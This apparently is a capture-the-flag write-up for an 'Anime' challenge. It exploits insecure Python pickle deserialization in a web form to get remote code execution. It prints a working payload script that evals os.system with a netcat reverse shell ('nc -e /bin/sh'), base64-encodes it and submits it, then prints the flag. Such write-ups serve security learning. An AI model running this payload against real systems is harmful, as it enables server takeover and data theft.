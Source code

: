 # Anime

In this task, you need to send malicious input to "Request anime form" to trigger insecure deserialization in python pickle lib.
First of all you need to create a payload, which can lead to RCE on server. You can achive this for example with this script:

import pickle
import base64
import os

class RCE:
def **reduce**(self):
cmd = ("os.system('nc -e /bin/sh 127.0.0.1 4444')")
return eval, (cmd,)

if **name** == '**main**':
pickled = pickle.dumps(RCE())
print(base64.urlsafe_b64encode(pickled))

After running this script you will be prompt with base64 output, which you need to paste in "Anime name" form field.
Run nc listener on your computer and hit submit button. You will gain reverse shell and you will be able to read the flag.txt file,
which is one directory above.

> flag{d4ng3r0us_4n1m3}
